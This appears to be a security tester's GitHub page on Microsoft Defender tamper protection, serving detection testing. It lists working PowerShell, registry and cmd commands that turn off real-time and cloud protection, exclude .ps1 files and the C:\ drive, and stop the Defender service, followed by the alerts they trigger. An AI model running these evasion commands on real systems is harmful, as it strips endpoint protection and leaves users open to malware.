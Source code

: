 # AV Tampering 
Microsoft Defender for Endpoint does provide AV tampering protection called **Tamper Protection**, preventing attackers from modifying values and disabling detection engines during defense evasion attempts. 
On this page, I would like to showcase some test methods and demonstrate the detection/alerts capabilities of Microsoft Defender for Endpoint.

## TEST insights
PowerShell, Defender Cmdlet 
```powershell
# Disable real-time protection
Set-MpPreference -DisableRealtimeMonitoring $true
# Disable cloud-delivered protection
Set-MpPreference -MAPSReporting 0
# Modify exclusions - Extensions & Paths 
Set-MpPreference -ExclusionExtension "ps1" -ExclusionPath "C:\"
```

PowerShell, Create new registry values
```powershell
# Disable real-time protection
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" -Name DisableRealtimeMonitoring -Value 1 -PropertyType DWord -Force
# Disable cloud-delivered protection
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" -Name SpynetReporting -Value 0 -PropertyType DWord -Force
# Modify exclusions - Extensions & Paths 
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" -Name "ps1" -Value 0 -PropertyType String -Force
New-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" -Name "C:\" -Value 0 -PropertyType String -Force
```
> [!Important]
> If the specified path doesn't exist, PowerShell returns an error. So, please ensure that the path exists. If it doesn't exist, you can create it.
> e.g. if Exclusions/Extensions path doesn't exist
> ```powershell
> New-Item -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions" -Name 'Extensions' -Force -ErrorAction 0
> ```

PowerShell, Stop Defender Service & Process
```powershell
Stop-Service -Name "WinDefend"
Stop-Process -Name "MsMpEng"
```

Windows commands, Create new registry values
```cmd
rem Disable real-time protection
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Real-Time Protection" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
rem Disable cloud-delivered protection
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\SpyNet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
rem Modify exclusions - Extensions & Paths 
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Extensions" /v "ps1" /t REG_SZ /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Exclusions\Paths" /f /v "C:\" /t REG_DWORD /d 0 /reg:64
```

Windows commands, Stop Defender Service, Network Service 
```cmd
sc stop WinDefend
net stop WinDefend
```

## Alerts & Detections

- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection
- [x] An active 'MpTamperSrvDisableAV' malware was prevented from executing via AMSI
- [x] An active 'MpTamperSrvDisableAV' malware in a command line was prevented from executing
- [x] Microsoft Defender Antivirus protection turned off

If Tamper Protection enabled...
- [x] Microsoft Defender Antivirus tampering

## Reference
- [Current limits of Defender AV Tamper Protection](https://cloudbrothers.info/current-limits-defender-av-tamper-protection/)
- [Make sure Tamper Protection is turned on](https://techcommunity.microsoft.com/t5/microsoft-defender-for-endpoint/make-sure-tamper-protection-is-turned-on/ba-p/2695568)
- [When coin miners evolve, Part 1: Exposing LemonDuck and LemonCat, modern mining malware infrastructure](https://www.microsoft.com/en-us/security/blog/2021/07/22/when-coin-miners-evolve-part-1-exposing-lemonduck-and-lemoncat-modern-mining-malware-infrastructure/)
- [When coin miners evolve, Part 2: Hunting down LemonDuck and LemonCat attacks](https://www.microsoft.com/en-us/security/blog/2021/07/29/when-coin-miners-evolve-part-2-hunting-down-lemonduck-and-lemoncat-attacks/)


#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.